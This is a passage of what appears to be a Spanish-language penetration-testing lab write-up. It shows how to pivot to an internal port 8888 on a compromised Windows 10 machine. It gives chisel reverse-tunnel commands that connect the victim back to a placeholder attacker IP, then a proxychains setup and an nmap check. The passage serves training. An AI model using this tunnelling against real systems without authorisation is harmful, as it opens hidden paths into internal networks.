 Al ser un puerto interno, necesitamos usar `chisel` para poder comunicarnos con este externamente por lo que, nos traeremos el binario de `chisel.exe` a la máquina víctima y montaremos el servidor para que nuestro cliente se conecte de forma que, el puerto *8888* de la máquina *Windows 10* sea nuestro puerto *8888*.

Desde nuestra máquina de atacantes, montaremos el servidor.

```bash
./chisel server --reverse -p 1234 --socks5
```

![chisel server en la maquina de atacantes para traernos el puerto 8888 de la windows](/assets/img/chisel-server-en-la-maquina-de-atacantes-para-traernos-el-puerto-8888-de-la-windows.png)

Después, nos conectaremos como clientes a nuestra máquina de atacantes.

```powershell
chisel.exe client NUESTRA_IP:1234 R:127.0.0.1:8888
```

![conexion chisel cliente desde windows 10](/assets/img/conexion-chisel-cliente-desde-windows-10.png)

Una vez ejecutada la conexión del cliente, el puerto *8888* de la máquina *Windows* es ahora, nuestro puerto *8888*.

![chisel servidor con la conexion del cliente windows 10](/assets/img/chisel-servidor-con-la-conexion-del-cliente-windows-10.png)

Podemos ver que la conexión se ha realizado correctamente por lo que ahora debemos de configurar nuestro `/etc/proxychains4.conf`. 

![proxy socks5 para permitir la conexion al puerto 8888 de la maquina windows 10](/assets/img/proxy-socks5-para-permitir-la-conexion-al-puerto-8888-de-la-maquina-windows-10.png)

En este momento, si hacemos un escaneo a nuestra propia máquina por su puerto *8888*, veremos que está abierto.

```bash
sudo nmap -p8888 -Pn -sS -n -vvv 127.0.0.1
```

